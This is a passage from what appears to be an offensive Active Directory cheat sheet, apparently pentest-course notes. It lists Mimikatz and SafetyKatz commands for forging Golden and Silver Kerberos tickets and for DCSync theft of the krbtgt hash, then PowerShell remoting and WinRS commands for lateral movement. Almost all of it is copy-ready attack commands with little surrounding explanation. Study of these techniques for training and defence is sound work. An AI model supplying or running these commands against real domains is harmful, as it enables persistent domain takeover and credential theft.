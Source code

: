 ~~~~c

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<HashOfkrbtgtAccount> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

~~~~
### Silver Ticket
* Create a Silver Ticket:
~~~~c
BetterSafetyKatz.exe "kerberos::golden /User:Adminisrator /domain:dollarcorp.moneycorp.local /sid:<Domain SID> /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:<rc4 hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'


~~~~

### DcSync
* By default, Domain Admin privileges are required to run DCSync
* Run DCSync command:
~~~~c
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\krbtgt"'

SafetyKatz.exe "lsadump::dcsync /user:DOMAIN\krbtgt" "exit"
~~~~

## 3.2 Lateral Movement
### PSremoting
* Enable PSRemote
~~~~c
Enable-PSRemoting
~~~~
* Create new session
~~~~c
New-PSSession -ComputerName DOMAIN-MACHINE

$sess = New-PSSession -ComputerName DOMAIN-MACHINE
~~~~
* Connect Remotely to the session previously created
~~~~c
Enter-PSSesion -ComputerName DOMAIN-MACHINE

Enter-PSSession -Session $sess
~~~~
### WinRS
* Connect to a computer via WinRS
~~~~c
winrs -r:DOMAIN-MACHINE cmd
~~~~

